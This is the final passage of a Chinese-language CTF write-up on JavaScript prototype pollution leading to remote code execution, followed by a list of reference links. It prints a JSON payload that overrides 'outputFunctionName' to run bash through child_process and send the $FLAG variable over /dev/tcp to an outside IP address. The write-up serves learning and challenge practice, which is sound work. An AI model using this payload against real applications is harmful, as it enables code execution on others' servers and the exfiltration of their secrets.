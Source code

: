 所以需要伪造 outputFunctionName 为一段恶意代码，就可以实现rce ，payload如下：

```js
{"type":"test","content":{"constructor":{"prototype":
{"outputFunctionName":"a=1;process.mainModule.require('child_process').exec('b
ash -c \"echo $FLAG>/dev/tcp/139.180.192.11/10000\"')//"\}\}\}\}
```



## 0x07 参考链接

1. [Javascript继承机制的设计思想 - 阮一峰](http://www.ruanyifeng.com/blog/2011/06/designing_ideas_of_inheritance_mechanism_in_javascript.html)

2. [深入理解 JavaScript Prototype 污染攻击](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)

3. [JavaScript 原型链污染](https://www.smi1e.top/javascript-%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93/)

4. [What is prototype pollution and why is it such a big deal?](https://medium.com/@dani_akash_/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c)

5. [NeSE-Team/OurChallenges/XNUCA2019Qualifier/](https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/)

6. [XNUCA2019 Hardjs题解 从原型链污染到RCE](https://xz.aliyun.com/t/6113)